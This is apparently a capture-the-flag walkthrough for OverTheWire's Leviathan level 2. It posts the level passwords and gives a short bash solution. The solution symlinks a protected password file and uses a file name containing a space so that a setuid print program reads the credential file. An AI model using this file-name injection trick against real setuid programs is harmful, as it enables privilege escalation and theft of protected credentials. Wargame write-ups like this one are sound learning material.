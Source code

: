 ### Leviathan Level 2

[Leviathan2](http://overthewire.org/wargames/leviathan/leviathan2.html)

**Username**: *leviathan2*

**Password**: *ougahZi8Ta*


### Solution
```bash
mkdir /tmp/maldevel_test
cd /tmp/maldevel_test
ln -s /etc/leviathan_pass/leviathan3 ./file
touch file\ asdf
cd ~
./printfile /tmp/maldevel_test/file\ asdf
```

#### Credentials for Level 3

**Username**: *leviathan3*

**Password**: *Ahdiemoo1j*
